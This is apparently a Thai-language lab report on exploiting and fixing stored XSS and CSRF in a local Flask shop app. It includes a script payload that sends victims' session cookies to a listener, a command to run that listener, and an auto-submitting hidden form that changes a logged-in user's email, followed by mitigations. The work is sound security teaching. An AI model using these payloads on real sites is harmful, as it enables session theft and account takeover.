




### ช่องโหว่ที่ 2: Cross-Site Scripting (XSS)

---

#### คำอธิบายช่องโหว่

Cross-Site Scripting (XSS) คือการโจมตีที่ผู้โจมตีแทรก script อันตรายเข้าไปในหน้าเว็บ
ที่ผู้ใช้คนอื่นจะเปิดดู เมื่อเหยื่อเปิดหน้านั้น script จะทำงานใน browser ของเหยื่อ
ภายใต้ความน่าเชื่อถือของเว็บไซต์จริง ทำให้ผู้โจมตีสามารถขโมย session cookie,
แอบอ้างตัวตน หรือควบคุม browser ของเหยื่อได้

XSS แบ่งเป็น 3 ประเภทหลัก:
- **Stored XSS** — script ถูกบันทึกลง database และทำงานทุกครั้งที่ใครเปิดหน้านั้น
- **Reflected XSS** — script ส่งผ่าน URL และสะท้อนกลับมาทันที ไม่มีการบันทึก
- **DOM-based XSS** — script ถูก inject ผ่าน DOM โดยตรง ไม่ผ่าน server

ช่องโหว่ในแอปนี้เป็นประเภท **Stored XSS** ซึ่งอันตรายที่สุด
เพราะ payload ทำงานกับทุกคนที่เปิดหน้าสินค้าชิ้นนั้น ไม่ใช่แค่คนที่คลิกลิงก์

**ตำแหน่งในแอปพลิเคชัน:** `POST /product/<id>/review` → `app/routes/products.py`
และ `app/templates/product_detail.html`

---

#### Methodology ตาม Chapter 21

**ขั้นที่ 1 — Mapping the Application (สำรวจแอปพลิเคชัน)**

ระบุ endpoint ทั้งหมดที่รับ input จากผู้ใช้แล้วแสดงผลกลับออกมาในหน้าเว็บ ได้แก่:
- `POST /product/<id>/review` — รับ `content` แล้วบันทึกและแสดงในหน้าสินค้า
- `GET /product/<id>` — ดึง review ทั้งหมดจาก database มาแสดงผล

โดยใช้ Burp Suite ดัก traffic ขณะโพสต์ review เพื่อดู request/response ที่แท้จริง

**ขั้นที่ 2 — Identifying Attack Surfaces (ระบุพื้นที่เสี่ยง)**

ตรวจสอบ template `product_detail.html` พบว่า:
- แสดงผล review content ด้วย `{{ review.content | safe }}`
- filter `| safe` ใน Jinja2 หมายถึง **ปิดการ escape HTML โดยเจตนา**
- ทำให้ HTML tag และ JavaScript ใดๆ ที่อยู่ใน content ถูก render โดยตรง

ตรวจสอบ `products.py` พบว่า:
- `add_review()` รับ `content` จาก form และ INSERT เข้า database ทันที
- ไม่มีการ sanitize หรือ validate input ใดๆ ก่อนบันทึก

→ input ที่มี script จะถูกเก็บและแสดงผลซ้ำกับทุกคนที่เปิดหน้าสินค้า = **Stored XSS ยืนยัน**

**ขั้นที่ 3 — Analyzing Inputs and Parameters (วิเคราะห์ input)**

```
POST /product/1/review HTTP/1.1
Host: localhost:5000
Cookie: session=<user_session_token>
Content-Type: application/x-www-form-urlencoded

content=<script>alert(document.cookie)</script>
```

ค่า `content` ไม่ผ่านการกรองใดๆ ก่อนบันทึกลง database และไม่ถูก escape ก่อนแสดงผล

**ขั้นที่ 4 — Testing Hypotheses (ทดสอบสมมติฐาน)**

ทดสอบโดยโพสต์ review ที่มี HTML tag พื้นฐานก่อน:

```html
<b>test</b>
```

ถ้าข้อความ "test" แสดงผลเป็นตัวหนา = ยืนยันว่า HTML ไม่ถูก escape จึงทดสอบต่อด้วย script:

```html
<script>alert(1)</script>
```

ถ้า alert popup ขึ้น = ยืนยัน XSS

**ขั้นที่ 5 — Exploitation (การโจมตี)**

เมื่อยืนยันได้แล้ว ใช้ payload ที่ส่ง cookie ไปยัง attacker server:

```html
<script>fetch('http://localhost:4000/?c=' + document.cookie)</script>
```

รัน attacker server รับข้อมูล:

```bash
python3 -m http.server 4000
```

ทุกคนที่เปิดหน้าสินค้านั้นจะส่ง session cookie มาให้ผู้โจมตีโดยอัตโนมัติ

---

#### ขั้นตอนการโจมตีแบบ Step-by-step

**ขั้นที่ 1:** ผู้โจมตีล็อกอินเข้าแอปด้วย account ของตัวเอง

**ขั้นที่ 2:** ผู้โจมตีเปิดหน้าสินค้า เช่น `http://localhost:5000/product/1`
           และโพสต์ review ที่มี payload:
```html
<script>fetch('http://localhost:4000/?c=' + document.cookie)</script>
```

**ขั้นที่ 3:** เซิร์ฟเวอร์รับ content และ INSERT เข้า database ทันที โดยไม่กรอง

**ขั้นที่ 4:** alice เปิดหน้าสินค้าเดียวกัน browser โหลด review ทั้งหมดจาก database

**ขั้นที่ 5:** Jinja2 render `{{ review.content | safe }}` → script tag ถูกแทรกเข้า HTML จริง
           Browser ของ alice อ่าน HTML และ **execute script ทันที**

**ขั้นที่ 6:** script ส่ง `document.cookie` ของ alice ไปที่ `localhost:4000`
           → ผู้โจมตีได้รับ session token ของ alice

**ขั้นที่ 7:** ผู้โจมตีนำ session token ไปใส่ใน browser ของตัวเอง
           → เข้าถึงบัญชี alice ได้ทันทีโดยไม่ต้องรู้ password

#### ผลลัพธ์

**ก่อนโจมตี — หน้าสินค้าปกติ ก่อนมี malicious review:**


*รูปที่ 1: หน้าสินค้าก่อนที่จะมีการโพสต์ review อันตราย*

**หลังโจมตีสำเร็จ — cookie ถูกส่งมายัง attacker server:**


*รูปที่ 2: terminal ของผู้โจมตีได้รับ session cookie ของเหยื่อ*

---

#### เหตุใดการโจมตีจึงสำเร็จ

- Jinja2 โดยค่าเริ่มต้น **escape HTML ทุกตัวแปร** เช่น `<` จะกลายเป็น `&lt;`
  แต่ filter `| safe` บอก Jinja2 ว่า "เชื่อใจ input นี้ ไม่ต้อง escape"
- input ของผู้ใช้ไม่ควรถูก mark ว่า `safe` เพราะผู้ใช้คือแหล่งที่มาที่ไม่น่าเชื่อถือ
- เซิร์ฟเวอร์ไม่ได้ sanitize input ก่อนบันทึก ทำให้ script อยู่ใน database ข้ามคืน
  และโจมตีเหยื่อได้เรื่อยๆ แม้ผู้โจมตีจะออกจากระบบไปแล้ว

> ⚠️ **หมายเหตุ:** Stored XSS อันตรายกว่า Reflected XSS เพราะไม่ต้องหลอก
> ให้เหยื่อคลิกลิงก์พิเศษ แค่เปิดหน้าปกติของเว็บก็โดนแล้ว

---

#### Mitigation Strategies (วิธีแก้ไข)

**วิธีที่ 1 (แนะนำ): ลบ `| safe` ออก และใช้ auto-escaping ของ Jinja2**

```html
<!-- product_detail.html — แก้จาก -->
{{ review.content | safe }}

<!-- เป็น -->
{{ review.content }}
```

Jinja2 จะ escape `<script>` เป็น `&lt;script&gt;` โดยอัตโนมัติ
ทำให้ browser อ่านเป็นข้อความธรรมดา ไม่ execute เป็น code

**วิธีที่ 2: Sanitize input ฝั่ง server ก่อนบันทึก**

```python
# products.py — ติดตั้งก่อน: poetry add bleach
import bleach

@products_bp.route('/product/<int:product_id>/review', methods=['POST'])
def add_review(product_id):
    if 'user' not in session:
        return redirect(url_for('auth.login'))

    content = request.form.get('content', '')

    # Sanitize: อนุญาตเฉพาะ tag ที่ปลอดภัย ลบ script ออก
    clean_content = bleach.clean(content, tags=[], strip=True)

    db = get_db()
    db.execute(
        'INSERT INTO reviews (user_id, username, product_id, content) VALUES (?, ?, ?, ?)',
        (session['user']['id'], session['user']['username'], product_id, clean_content)
    )
    db.commit()
    return redirect(url_for('products.product_detail', product_id=product_id))
```

**วิธีที่ 3: เพิ่ม Content Security Policy (CSP) header**

```python
# app/__init__.py
@app.after_request
def set_csp(response):
    response.headers['Content-Security-Policy'] = (
        "default-src 'self'; script-src 'self'; object-src 'none';"
    )
    return response
```

CSP บอก browser ว่าให้ execute script ได้เฉพาะจาก origin เดียวกันเท่านั้น
ทำให้ inline `<script>` จาก XSS ถูก block แม้ผ่าน `| safe` มาได้

| วิธี | ป้องกัน Stored XSS | ป้องกัน Reflected XSS | หมายเหตุ |
|---|---|---|---|
| ลบ `\| safe` | ✅ | ✅ | วิธีที่ดีที่สุด ง่ายสุด |
| bleach.clean() | ✅ | ✅ | ป้องกันได้แม้มีคน re-add `\| safe` |
| CSP header | ✅ (ลด impact) | ✅ (ลด impact) | Defense-in-depth ชั้นเสริม |

**สรุป: ควรทำทั้งวิธีที่ 1 และ 3 ร่วมกัน**
- วิธีที่ 1 แก้ต้นเหตุโดยตรง
- วิธีที่ 3 เป็น safety net กรณีมีช่องโหว่อื่นที่ยังไม่รู้

---


### ช่องโหว่ที่ 3: Cross-Site Request Forgery (CSRF)

---

#### คำอธิบายช่องโหว่

Cross-Site Request Forgery (CSRF) คือการโจมตีที่หลอกให้เบราว์เซอร์ของผู้ใช้ที่
ล็อกอินอยู่ส่งคำขอที่ไม่ได้รับอนุญาตไปยังเว็บแอปพลิเคชันที่เชื่อถือ
เนื่องจากเบราว์เซอร์จะแนบ session cookie ไปกับทุก request โดยอัตโนมัติ
เซิร์ฟเวอร์จึงไม่สามารถแยกแยะระหว่าง request จริงกับ request ปลอมได้

ช่องโหว่ CSRF เกิดขึ้นเมื่อครบ **3 เงื่อนไข** พร้อมกัน:
1. มี action ที่มีความสำคัญ (privileged action) ที่ผู้โจมตีต้องการ trigger
2. แอปพลิเคชันใช้ **เฉพาะ HTTP cookie** ในการระบุตัวตนผู้ใช้ ไม่มี token อื่น
3. ผู้โจมตีสามารถ **คาดเดาค่า parameter ทุกตัว** ที่ต้องส่งใน request ได้ล่วงหน้า

**ตำแหน่งในแอปพลิเคชัน:** `POST /account/edit` → `app/routes/account.py`

---

#### Methodology ตาม Chapter 21

**ขั้นที่ 1 — Mapping the Application (สำรวจแอปพลิเคชัน)**

ระบุ endpoint ทั้งหมดที่เปลี่ยนแปลงสถานะข้อมูล (state-changing) ได้แก่:
- `POST /account/edit` — เปลี่ยน email ของผู้ใช้
- `POST /account/password` — เปลี่ยนรหัสผ่าน

โดยใช้ Burp Suite ดัก traffic ขณะใช้งานแอปตามปกติ เพื่อสร้าง request map

**ขั้นที่ 2 — Identifying Attack Surfaces (ระบุพื้นที่เสี่ยง)**

ตรวจสอบ `POST /account/edit` พบว่า:
- ไม่มี CSRF token ใน form
- ไม่มีการตรวจสอบ `Origin` หรือ `Referer` header
- ไม่มี `SameSite` attribute บน session cookie
- ค่า parameter (`email`) สามารถกำหนดล่วงหน้าได้ทั้งหมด

→ ครบทั้ง 3 เงื่อนไข = **ช่องโหว่ CSRF ยืนยัน**

**ขั้นที่ 3 — Analyzing Inputs and Parameters (วิเคราะห์ input)**

```
POST /account/edit HTTP/1.1
Host: localhost:5001
Cookie: session=<alice_session_token>
Content-Type: application/x-www-form-urlencoded

email=newemail@example.com
```

ไม่มี secret value ใดๆ ใน body — ผู้โจมตีสามารถสร้าง request เหมือนกันทุกประการ

**ขั้นที่ 4 — Testing Hypotheses (ทดสอบสมมติฐาน)**

สร้างไฟล์ `evil.html` ที่ host บน origin อื่น (`http://localhost:8080`)
โดยใช้ hidden form ที่ auto-submit ทันทีที่หน้าโหลด:

```html
<!-- evil.html -->
<html>
<body onload="document.forms[0].submit()">
  <form action="http://localhost:5001/account/edit"
        method="POST"
        style="display:none">
    <input type="hidden" name="email" value="hacked@attacker.com">
  </form>
  <p>Loading...</p>
</body>
</html>
```

**ขั้นที่ 5 — Exploitation (การโจมตี)**

ขณะที่ alice ล็อกอินอยู่ที่ `localhost:5001` และเปิด `evil.html`
เบราว์เซอร์จะส่ง POST request พร้อม session cookie ของ alice โดยอัตโนมัติ
เซิร์ฟเวอร์ไม่มีการตรวจสอบ token → email ถูกเปลี่ยนสำเร็จ

---

#### ขั้นตอนการโจมตีแบบ Step-by-step

**ขั้นที่ 1:** alice เข้าสู่ระบบที่ http://localhost:5001
           → เบราว์เซอร์ได้รับ session cookie: session=abc123

**ขั้นที่ 2:** ผู้โจมตีเตรียม evil.html ที่ http://localhost:8080/evil.html
           → form ซ่อน target: POST /account/edit, email=hacked@attacker.com

**ขั้นที่ 3:** alice คลิกลิงก์ phishing → เปิด evil.html ใน browser เดิม

**ขั้นที่ 4:** JavaScript auto-submit ทำงานทันที
           → Browser ส่ง:
- POST http://localhost:5001/account/edit
- Cookie: session=abc123          ← แนบอัตโนมัติ!
- Body: email=hacked@attacker.com

**ขั้นที่ 5:** เซิร์ฟเวอร์ตรวจสอบแค่ session → valid → บันทึก email ใหม่

**ขั้นที่ 6:** alice ไม่รู้ตัว — email ถูกเปลี่ยนเป็น hacked@attacker.com แล้ว
           → ผู้โจมตีสามารถ reset password ผ่าน email ที่ควบคุมได้

#### ผลลัพธ์

**ก่อนโจมตี:**

*รูปที่ 1: หน้า account ของ alice ก่อนถูกโจมตี*

**หลังจากโจมตีสำเร็จ:**

*รูปที่ 2: email ถูกเปลี่ยนสำเร็จโดย alice ไม่รู้ตัว*

---

#### เหตุใดการโจมตีจึงสำเร็จ

- เบราว์เซอร์แนบ cookie ไปกับ **ทุก request** ที่ส่งไปยัง domain เดิม
  โดยไม่สนใจว่า request มาจาก origin ใด
- เซิร์ฟเวอร์ตรวจสอบแค่ว่า session ถูกต้อง ไม่ได้ตรวจว่า
  **request มาจากที่ไหน**
- ไม่มี secret token ที่ผู้โจมตีไม่รู้ค่า → สร้าง request ปลอมได้สมบูรณ์

> ⚠️ **หมายเหตุ:** Multistage process (เช่น confirm dialog) ไม่เพียงพอ
> ในการป้องกัน CSRF เพราะผู้โจมตีสามารถส่ง request ทั้ง 2 ขั้นตอน
> ต่อเนื่องกันได้จาก evil.html เดียวกัน

---

#### การทดสอบ Anti-CSRF Defense (Verify ว่า Mitigation ใช้งานได้จริง)

หลังจากใส่ CSRF token แล้ว ทดสอบว่า defense ทำงานถูกต้อง:

| การทดสอบ | ผลที่คาดหวัง |
|---|---|
| ส่ง request โดยไม่มี `csrf_token` | → ถูก reject ด้วย HTTP 403 |
| ส่ง `csrf_token` ที่ค่าผิด (แก้ใน Burp) | → ถูก reject ด้วย HTTP 403 |
| ส่ง token ของ session อื่น (token ของผู้โจมตีเอง) | → ถูก reject (token ต้องผูกกับ session) |
| ส่ง request ปกติพร้อม token ถูกต้อง | → สำเร็จ HTTP 200 |

> ⚠️ **ข้อควรระวัง:** ห้ามใช้ `Referer` header เพียงอย่างเดียวในการตรวจสอบ
> เพราะสามารถถูก spoof ได้ด้วย Flash เวอร์ชันเก่า หรือซ่อนด้วย
> meta refresh tag

---

#### Mitigation Strategies (วิธีแก้ไข)

**วิธีที่ 1 (แนะนำ): Synchronizer Token Pattern**

```python
# app/routes/account.py
import secrets

@account_bp.route('/account/edit', methods=['GET', 'POST'])
def edit():
    if 'user' not in session:
        return redirect(url_for('auth.login'))

    if request.method == 'GET':
        # สร้าง token ใหม่และเก็บใน session
        token = secrets.token_hex(16)
        session['csrf_token'] = token
        return render_template('edit_profile.html',
                               csrf_token=token,
                               user=session['user'])

    if request.method == 'POST':
        # ตรวจสอบ token ก่อนทำงานทุกครั้ง
        submitted_token = request.form.get('csrf_token')
        if not submitted_token or submitted_token!= session.get('csrf_token'):
            return "CSRF token invalid!", 403

        new_email = request.form.get('email')
        #... บันทึก email ใหม่
```

เพิ่มใน template:
```html
<form method="POST" action="/account/edit">
  <input type="hidden" name="csrf_token" value="{{ csrf_token }}">
  <input type="email" name="email" value="{{ user.email }}">
  <button type="submit">Save</button>
</form>
```

**วิธีที่ 2: SameSite Cookie Attribute**

```python
# app/__init__.py
app.config['SESSION_COOKIE_SAMESITE'] = 'Lax'   # หรือ 'Strict'
app.config['SESSION_COOKIE_HTTPONLY'] = True
app.config['SESSION_COOKIE_SECURE'] = True       # สำหรับ HTTPS
```

| ค่า SameSite | พฤติกรรม |
|---|---|
| `Strict` | ไม่ส่ง cookie ในทุก cross-site request |
| `Lax` | ส่งเฉพาะ top-level navigation (GET) ไม่ส่งใน POST cross-site |
| `None` | ส่งทุก request (ค่า default เดิม = เสี่ยง) |

**วิธีที่ 3: ใช้ Flask-WTF (Production-ready)**

```python
# ติดตั้ง: poetry add flask-wtf
from flask_wtf.csrf import CSRFProtect
csrf = CSRFProtect(app)
# ป้องกันทุก POST route อัตโนมัติ ไม่ต้องเขียน manual
```

**สรุป: ไม่ควรใช้วิธีเหล่านี้เพียงอย่างเดียว**
- ❌ `Referer` header — spoof ได้
- ❌ Multistage process — ผู้โจมตีส่งได้ทุกขั้นตอน
- ✅ CSRF token + SameSite cookie = ป้องกันได้ครอบคลุม

---
